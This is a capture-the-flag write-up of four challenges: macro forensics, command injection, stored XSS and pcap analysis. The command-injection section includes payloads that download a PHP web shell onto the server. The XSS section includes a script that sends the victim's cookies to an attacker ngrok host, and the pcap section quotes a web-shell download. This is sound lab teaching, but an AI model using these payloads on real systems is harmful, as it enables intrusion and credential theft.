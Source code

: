 # CHTB Write-up Dec'21

I had solved 6 in the contest, but I had only these 4 solutions written down, so here they are.

----

### Giveaway
###### Category: Forensic

Opened .docm file in a VM from Word, read the Macro created.
In the mess found a section where a bunch of variables were being created which printed a URL, but URL had a flag. It encoded using simple `Chr(Asc('H')) & Chr(98) ...` 
Converted it to python code and ran it to get the flag.

----

### Gadget Santa
###### Category: Web

Webpage shows multiple buttons with query param sending a string that decides which output to show. Its a function name in a bash file. Bash file is executed by PHP.
PHP only trims white space in input command so following works:
```bash

list_storage;ls

list_storage;echo${IFS}here;ls

list_storage;/santa_mon.sh${IFS}whoami

list_storage;ls;curl${IFS}https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/index.php${IFS}-o${IFS}static/bg.php;ls
```

We access static/dg.php and look around. It took sometime and I remembered we have source code :D 
Source code shows us that we need to call localhost:3000/get_flag
and we get the flag. 

----

### Toy Workshop
###### Category: Web

A webpage uses some animation and starts audio. grep over audio file somehow matches "HTB", but that's wrong path.

Download source code files and you understand that every POST request for queries inserts the query into DB and then executes Bot.

Bot turns on puppeteer and tries loading /queries in browser which internally uses handlerbars to render all queries. Before loading /queries in browser, it also sets flag in cookies. 
Create a simple server (echo server or http-server), and publish it over ngrok. Then sending following payload in POST API call sends a GET request to ngrok with cookies as path param.

```json
{"query": "<script>fetch('http://2a67-139-59-78-128.ngrok.io/asd/ads/' + document.cookie)</script>"}
```

----

### baby APT
###### Category: Forensics

Need to find the customer who was affected.
Opened pcap file using wireshark

Filtered over HTTP coz only that made sense to me.

HTTP request showed an hacker creating web execution shell using PHP exploiting drupal's registration page as follows:

```bash
curl https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/index.php -o bg.php
```

Hacker creates a new bg.php file and inputs commands in it, last command is to delete a file and replace its contents with a base64 string.
Decoding that string gets us flag.

----

